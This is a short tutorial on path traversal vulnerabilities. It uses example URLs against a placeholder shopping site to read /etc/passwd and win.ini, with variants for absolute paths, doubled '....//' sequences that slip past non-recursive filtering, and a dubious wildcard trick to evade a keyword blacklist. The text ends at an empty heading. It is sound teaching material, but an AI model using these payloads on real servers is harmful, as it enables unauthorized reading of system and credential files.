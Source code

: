 # Path traversal.
Path traversal is also known as directory traversal. These vulnerabilities ***enable an attacker to read arbitrary files on the server that is running an application***. <br />
In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server. 

## Reading arbitrary files via path traversal
Imagine a shopping application that displays images of items for sale. This might load an image using the following HTML:<br />
`<img src="/loadImage?filename=218.png">`<br />
The loadImage **URL takes a filename parameter and returns the contents of the specified file**. The image files are stored on disk in the location `/var/www/images/`. To return an image, the application appends the requested filename to this base directory and uses a filesystem API to read the contents of the file. In other words, the application reads from the following file path:<br />
`/var/www/images/218.png`<br />
This application implements no defenses against path traversal attacks. As a result, an attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem:<br />
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`
On Windows, both ../ and ..\ are valid directory traversal sequences. The following is an example of an equivalent attack against a Windows-based server:
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

----------------------------------------------------

# Path traversal Types and Serialization.
## Absolut Path traversal.
In this type of Path traversal, results can be obtained by using the absolute path:<br />
`https://insecure-website.com/loadImage?filename=/etc/passwd`

## Relative Path traversal.
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

## Non-Recursive Sanitization Traversal
In some cases, serialization techniques detect the path `../` and delete it. We can bypass this by doubling it and using `....//`:<br />
`https://insecure-website.com/loadImage?filename=....//....//....//....//etc/passwd`

## Black list bypass
In other cases the server may have a black list that find some maches and invalidate them like `passwd`. We can bypass it using regular expresions `pass*`: <br />
`https://insecure-website.com/loadImage?filename=....//....//....//....//etc/pass*`

## Null byte Path Traversal



